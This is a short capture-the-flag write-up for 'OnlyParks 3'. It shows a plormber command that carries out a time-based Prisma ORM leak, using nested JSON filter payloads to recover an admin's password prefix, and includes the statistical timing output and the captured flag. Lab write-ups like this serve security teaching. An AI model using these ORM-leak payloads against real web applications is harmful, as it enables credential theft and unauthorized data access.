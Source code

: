# OnlyParks 3 📖🎡🎢

## Write-up

In this challenge, since we do not have access to the output, we have to use a time-based attack. It is a bit harder to use with an ORM, but it is still possible using big queries and statistical analysis. The tool [`plormber`](https://github.com/elttam/plormber) can do it for us.

Here's the command line: 
```bash
plormber prisma-contains \
  --verbose-stats \
  --dumped-prefix flag- \
  --base-query-json '{"where":{PAYLOAD}}' \
  --leak-query-json '{"clowns":{"some":{"clown":{"isAdmin":true,"password":{"startsWith":"{ORM_LEAK}"}}}}}' \
  --contains-payload-json '{"body":{"contains":"{RANDOM_STRING}"}}' \
  http://127.0.0.1:5002/api/article
```

Output example with the flag.
```
stats analysis comparing flag-08826f5b2a0fb34674c7a808757173e to (G$BF]/6I>x(M'rP!cZzbgD6/R=MVhrytI;[
                                          mean    median       std  size
test_dump_val
(G$BF]/6I>x(M'rP!cZzbgD6/R=MVhrytI;[  0.108509  0.107304  0.021999     3
flag-08826f5b2a0fb34674c7a808757173e  0.285277  0.306284  0.042978     3
p_value for flag-08826f5b2a0fb34674c7a808757173e: 0.004043008900464535

100%|█████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00,  3.31it/s]
stats analysis comparing flag-08826f5b2a0fb34674c7a808757173e5 to 6I72;ZV:#UT}76Q:F7Z#Z~_t-egZR@<4KmBG?
                                           mean    median       std  size
test_dump_val
6I72;ZV:#UT}76Q:F7Z#Z~_t-egZR@<4KmBG?  0.135106  0.122002  0.025362     3
flag-08826f5b2a0fb34674c7a808757173e5  0.270954  0.267134  0.010239     3
p_value for flag-08826f5b2a0fb34674c7a808757173e5: 0.0026670034792631164

Path check detected no errors! Continuing exploitation.
```

## Flag

`flag-08826f5b2a0fb34674c7a808757173e5`
